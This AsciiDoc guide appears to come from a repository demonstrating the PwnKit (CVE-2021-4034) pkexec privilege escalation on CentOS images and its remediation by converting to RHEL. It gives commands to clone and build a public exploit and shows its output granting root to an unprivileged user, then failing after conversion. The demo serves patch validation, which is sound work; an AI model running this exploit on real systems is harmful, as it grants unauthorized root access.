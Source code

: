 = Demo PwnKit security escallation and remediation

PwnKit is the name associated with https://access.redhat.com/security/cve/CVE-2021-4034[CVE-2021-4034] - Pkexec Local Privilege Escalation.

There are a number of sample escallation examples availble today including

* https://github.com/ly4k/PwnKit
* https://github.com/luijait/PwnKit-Exploit.git

For this demo we'll show how the standard Cloud Images for Centos
are impacted by the exploit that once updated to RHEL the exploit has been remediated

This demo has been validated against the following Centos Images

* https://cloud.centos.org/altarch/7/images/CentOS-7-x86_64-GenericCloud-2009.qcow2[CentOS-7-x86_64-GenericCloud-2009.qcow2]
* https://cloud.centos.org/centos/8/x86_64/images/CentOS-8-GenericCloud-8.4.2105-20210603.0.x86_64.qcow2[CentOS-8-GenericCloud-8.4.2105-20210603.0.x86_64.qcow2] 
** including patched upto Centos 8.5

== Demo Pre-work ==

First we need a Centos Virtual machine

- Deploy a link:Demo_VM.adoc[local or cloud hosted Centos Linux environment]

For Centos 8 we also need to update the yum repositories to point to
the centos vault.

[source,bash]
----
ssh leapp2rhel

# wait for the login to complete

sed -i 's/^mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*
sed -i 's|#baseurl=http://mirror.centos.org|baseurl=https://vault.centos.org|g' /etc/yum.repos.d/CentOS-*
----

=== Automated Deployment ===

Here we use Ansible to create the user and configure the environment


[source,bash]
----

cd ansible
ansible-playbook -i hosts pwnkit.yaml

----


=== Manual environment configuration ===

Install the required tools into your VM and download
the exploit respoitory

[source,bash]
----

ssh leapp2rhel

yum install gcc make git

useradd developer

#Switch to the developer user, and download the exploit repo
su -i developer

# Clone the exploit code, and build the exploit
git clone https://github.com/luijait/PwnKit-Exploit.git

----

== Live Demo ==

The flow is

* Show the exploit exists under our _developer_ user
* Convert link:Demo_Convert2RHEL.adoc[Centos environment to RHEL] with Convert2RHEL
* Show the exploit no longer works

[source,bash]
----

# Login as our developer user
ssh developer@leapp2rhel

# Clone the Git Repo
git clone https://github.com/luijait/PwnKit-Exploit.git Exploit

# Build the PwnKit Exploit
cd Exploit
make

# Confirm our user details
id
uid=1000(developer) gid=1000(developer) groups=1000(developer) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

# Confirm we can't access the root user

sudo -i
# Should produce a response similar to
[sudo] password for developer: 
developer is not in the sudoers file.  This incident will be reported.


# Now run our exploit

./exploit 
Current User before execute exploit
hacker@victim$whoami: developer
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully

[root@localhost PwnKit-Exploit]# id
uid=0(root) gid=0(root) groups=0(root),1001(developer) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

exit
logout

----

Convert link:Demo_Convert2RHEL.adoc[Centos environment to RHEL] with Convert2RHEL

[source,bash]
----
# Login as our developer user
ssh developer@leapp2rhel

./exploit
# Exploit fails

Current User before execute exploit
hacker@victim$whoami: developer
Exploit written by @luijait (0x6c75696a616974)
[+] Enjoy your root if exploit was completed succesfully
pkexec --version |
       --help |
       --disable-internal-agent |
       [--user username] PROGRAM [ARGUMENTS...]

See the pkexec manual page for more details.

Report bugs to: http://lists.freedesktop.org/mailman/listinfo/polkit-devel
polkit home page: <http://www.freedesktop.org/wiki/Software/polkit>

----

link:../README.adoc[Return]
